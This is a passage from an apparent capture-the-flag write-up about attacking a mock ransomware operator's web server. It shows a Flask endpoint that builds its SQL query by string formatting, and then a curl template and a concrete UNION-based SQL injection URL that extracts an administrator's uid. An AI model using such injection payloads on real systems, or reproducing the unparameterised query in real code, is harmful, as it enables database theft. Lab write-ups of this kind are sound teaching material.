 luckily there are ways in this attacker's server that we can pull values from
the database. This `userinfo` endpoint that authenticated users have access to
is a SQL-injection vulnerability:

```python
def userinfo():
    """ Create a page that displays information about a user """
    query = request.values.get('user')
    if query == None:
        query =  util.get_username()
    userName = memberSince = clientsHelped = hackersHelped = contributed = ''
    with util.userdb() as con:
        infoquery= "SELECT u.memberSince, u.clientsHelped, u.hackersHelped, u.programsContributed FROM Accounts a IN    NER JOIN UserInfo u ON a.uid = u.uid WHERE a.userName='%s'" %query
        row = con.execute(infoquery).fetchone()
        if row != None:
            userName = query
            memberSince = int(row[0])
            clientsHelped = int(row[1])
            hackersHelped = int(row[2])
            contributed = int(row[3])
    if memberSince != '':
        memberSince = datetime.utcfromtimestamp(int(memberSince)).strftime('%Y-%m-%d')
    resp = make_response(render_template('userinfo.html',
        userName=userName,
        memberSince=memberSince,
        clientsHelped=clientsHelped,
        hackersHelped=hackersHelped,
        contributed=contributed,
        pathkey=expected_pathkey()))
    return resp
```

Using the query parameter like so:

```sql
/userinfo?user={PAYLOAD}
```

> If you want to make a cli request to the website and fetch the relevant data,
> you can use a command that looks like:
> 
> ```sh
> curl -sL https://bjfqkzebewayjhlt.ransommethis.net/bxhmtnkpzfvffrha/userinfo \
>     --data-urlencode "SQL Injection Payload.."  \
>     -b "token cookie..." \
> ```

we are able to display any integer value we would like from the database. This
makes finding the uid easy by doing a UNION with a select where the name equal
the admin user and replace any of the 4 SELECT positions with `a.uid`.

```sql
https://bjfqkzebewayjhlt.ransommethis.net/bxhmtnkpzfvffrha/userinfo?user=' union SELECT 0, a.uid, 0, 0 FROM Accounts a INNER JOIN UserInfo u ON a.uid = u.uid where a.userName = 'ReconditeIcebreaker'; --
```
